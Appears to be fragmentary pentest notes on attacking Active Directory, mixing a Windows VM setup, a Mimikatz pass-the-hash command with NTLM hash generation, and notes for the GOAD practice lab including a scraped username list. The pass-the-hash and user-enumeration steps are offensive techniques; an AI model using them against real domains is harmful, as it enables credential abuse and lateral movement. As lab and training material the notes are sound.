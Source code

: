 In order to streamline your process, create a script that can download all three .txt into the same PowerShell session one by one.

## Scenario 2: Windows VM
Sometimes client only provide VPN credentials and  a Windows VM is needed to interact with the domain, without being domain-joined.
In the VMs IPV4 settings the domains Domain controller needs to be put as primary DNS. 

### Domain Interaction
After setting the Domain controller as your VMs DNS to interact with the domain run the following:
#### `runas /netonly /user:DOMAIN\User1 cmd.exe`

Verify you have valid domain authentication using the net binary.
#### `net view domain `

### Bonus Quality of Life Trick:

1. Generate an NTLM hash in a linux terminal to PTH with Mimikatz:
#### `echo -n 'PAssw+rd!' | iconv -t UTF-16LE | openssl md4`

2. Use the following command with mimikatz:
Create a CMD with the context of the NT hash from the user. This will allow you to interact with the domain much easier.
#### `sekurlsa:pth /user:samaccountname /domain:domainname /dc:dcfqdn /ntlm:string`














nslookup -type=srv _ldap._tcp.dc._msdcs.sevenkingdoms.local 192.168.56.10

# /etc/hosts
# GOAD
192.168.56.10   sevenkingdoms.local kingslanding.sevenkingdoms.local kingslanding
192.168.56.11   winterfell.north.sevenkingdoms.local north.sevenkingdoms.local winterfell
192.168.56.12   essos.local meereen.essos.local meereen
192.168.56.22   castelblack.north.sevenkingdoms.local castelblack
192.168.56.23   braavos.essos.local braavos


curl -s https://www.hbo.com/game-of-thrones/cast-and-crew | grep 'href="/game-of-thrones/cast-and-crew/'| grep -o 'aria-label="[^"]*"' | cut -d '"' -f 2 | awk '{if($2 == "") {print tolower($1)} else {print tolower($1) "." tolower($2);} }' > got_users.txt
